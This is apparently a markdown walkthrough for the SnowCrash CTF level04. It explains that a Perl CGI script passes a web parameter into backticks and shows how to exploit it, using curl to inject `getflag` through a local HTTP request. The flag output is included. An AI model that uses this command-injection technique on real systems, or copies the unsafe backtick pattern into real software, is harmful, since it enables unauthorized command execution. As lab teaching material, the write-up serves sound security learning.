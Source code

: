 ```markdown
# SnowCrash – Level04 Walkthrough

## 🧠 Objective

Find a way to exploit the `level04.pl` Perl script to retrieve the flag.

---

## 📜 The Script

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

This script:
1. Uses the `CGI` module to fetch the `x` parameter from a web request.
2. Executes `echo $x` using backticks, allowing potential command injection.

---

## ❌ Initial Observation – Why Direct Exploitation Fails

Trying to pass a payload through the terminal like this:

```bash
./level04.pl "x=\`getflag\`"
```

**fails to return the flag**, even though the command is clearly injected.

### ✅ Why?
The `getflag` binary only returns the flag **when executed by the effective UID of level04**, which happens **only when the script is executed by the web server** — not manually from the terminal.

---

## 🔍 Step-by-Step Exploitation

### 1. 🛠 Check if the web server is running

```bash
netstat -tulnp | grep 4747
```

Expected output:
```
tcp        0      0 127.0.0.1:4747          0.0.0.0:*               LISTEN
```

This confirms the server is listening locally on port 4747.

---

### 2. 🌐 Exploit via HTTP using `curl`

Now that we know the script is triggered through a web server, we can inject a command via a GET request:

```bash
curl "http://localhost:4747/?x=\`getflag\`"
```

### ✅ Output:

```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

---

## 🎯 Conclusion

- Command injection is possible due to unsafe use of backticks in Perl.
- The vulnerability is only exploitable through the web server (not from terminal).
- By injecting a call to `getflag` via HTTP, the script returns the correct token.
